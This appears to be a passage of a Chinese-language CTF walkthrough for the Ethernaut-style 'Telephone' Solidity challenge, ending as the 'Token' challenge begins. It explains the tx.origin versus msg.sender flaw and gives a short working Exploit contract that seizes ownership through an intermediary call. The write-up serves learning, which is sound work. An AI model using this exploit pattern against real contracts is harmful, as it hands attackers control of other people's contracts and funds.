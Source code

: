 
## Telephone

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Telephone {
        address public owner;
        constructor() public {
            owner = msg.sender;
        }

        function changeOwner(address _owner) public {
            if (tx.origin != msg.sender) {
                owner = _owner;
            }
        }
    }
    ```

也是需要拿到合约的所有权，而调用合约中的 changeOwner 函数来转移所有权的话，需要使 tx.origin 和 msg.sender 不同

它们的区别：

- tx.origin：交易发送方，是整个交易最开始的地址
- msg.sender：消息发送方，是当前调用的调用方地址

所以如果通过 账户 A -> 合约 A -> 合约 B 来调用的话，tx.origin 就是账户 A，而对于合约 B 来说，msg.sender 是合约 A

所以这题只需要编写一个新的合约来调用题目的 changeOwner 函数就好了

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    /* code of Telephone */

    contract Exploit {
        Telephone p = Telephone(<instance address>);
        function exp() public {
            p.changeOwner(msg.sender);
        }
    }
    ```

---

## Token

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;
